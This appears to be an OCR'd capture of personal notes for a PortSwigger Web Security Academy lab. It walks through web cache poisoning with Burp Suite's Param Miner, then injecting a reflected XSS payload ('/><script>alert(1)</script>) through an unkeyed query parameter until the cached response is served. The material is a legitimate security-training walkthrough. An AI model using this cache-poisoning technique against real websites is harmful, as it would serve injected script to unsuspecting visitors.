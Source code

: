```bash
OK

Go to: Target -> Issues

GET /?gici97=1 HTTP/1.1

Response:

HTTP/1.1 200 OK

Copy:

"gici97"

Go to Response
Ctrl+f
Paste:

gici97

Go to: Repeater
Right-click request -> Extensions -> Param Miner -> Guess params -> Guess headers (disable if previously enabled)
Craft a response to escape the <href> tag

GET /?utm_content='/><script>alert(1)</script> HTTP/1.1

Initially I achieved XSS on:

GET /post?postId=7&'/><script>alert(1)</script> HTTP/1.1

Solving the lab seems to work only if triggered on the main page
The hint infers using the utm parameter
The script should would without the parameter as well
Like so:

GET /?'/><script>alert(1)</script> HTTP/1.1

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0aa800d903a4d168c0067e18002a003f.web-security-academy.net/

Refresh the page

```
